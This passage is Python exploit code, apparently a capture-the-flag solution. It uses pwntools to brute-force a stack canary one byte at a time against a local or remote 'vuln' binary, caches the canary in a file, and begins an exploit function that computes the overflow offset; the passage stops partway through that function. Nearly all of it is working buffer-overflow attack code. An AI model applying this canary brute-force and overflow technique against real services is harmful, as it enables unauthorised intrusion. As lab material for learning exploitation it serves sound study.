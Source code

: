 ```python
    try:
        os.remove(filename)
    except:
        pass
    with open(filename, 'w') as f:
        f.write(content)
    

def canarySendLine(charOrd, manyByte, canaryValue):
    global startByte, remoteServer
    vault = ''
    if isRemote == False:
        remoteServer = process('./vuln')
    try:
        with remoteServer as p:
            p.recvuntil(b'>');p.sendline(bytes(str(manyByte), 'utf-8')) 
            payload2 = 'A' * startByte + canaryValue + chr(charOrd)
            p.recvuntil(b'>');p.sendline(bytes(payload2, 'utf-8'))
            vault = p.recvline("\n").decode()
    except:
        print(Fore.RED + '['+ str(charOrd) +'] Connection error' + Style.RESET_ALL)
        pass
    return vault

def findCanary():
    global manyByte
    canaryValue = ''
    
    # print 'finding canary value' with green color
    print(Fore.GREEN + '[+] Finding canary value: ' + Style.RESET_ALL, end = '')
    for _ in range(4):
        for charOrd in range(255):
            # deactivate log
            context.log_level = 'error'
            # send line to the server
            vault = canarySendLine(charOrd, manyByte, canaryValue)
            if "Ok... Now Where's the Flag?" in vault:
                canaryValue += chr(charOrd)
                manyByte += 1
                print(canaryValue[-1], end='')
                break
            else:
                continue
    # write canary in file result.txt, and if result.txt exist, delete it
    tempFile('result.txt', canaryValue)
    return canaryValue

def exploit():
    global manyByte, winAddress, startByte, remoteServer
    
    # if result.txt exist, open it
    if os.path.isfile('result.txt'):
        with open('result.txt', 'r') as f:
            canary = f.read()
        print(Fore.GREEN + '\n[+] Canary value: ' + canary + Style.RESET_ALL, end='')
    else:
        canary = findCanary()

    manyByte += 4 + 16 + 4

    print(Fore.GREEN + '\n[+] Exploiting: ' + Style.RESET_ALL, end='')
    # deactivate log
    context.log_level = 'error'
```